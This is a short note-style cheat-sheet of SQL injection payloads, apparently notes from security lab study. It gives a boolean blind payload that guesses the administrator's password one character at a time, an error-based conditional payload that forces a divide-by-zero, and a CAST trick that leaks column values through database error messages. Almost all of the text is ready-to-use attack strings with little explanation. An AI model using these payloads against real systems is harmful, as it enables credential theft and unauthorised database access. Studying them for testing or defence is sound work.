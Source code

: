 [[sql]]
determine if the first symbol of password is greater than 'm':
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

then try next symbol and so on.

##### Error based SQL
```sql
(SELECT CASE WHEN ((select substr(password,6,1) from users where username='administrator')='a') THEN '' ELSE TO_CHAR(1/0) END FROM dual)
```
convert one type to another
```sql
CAST((SELECT example_column FROM example_table) AS int)
```
example_column value will be displayed in the error
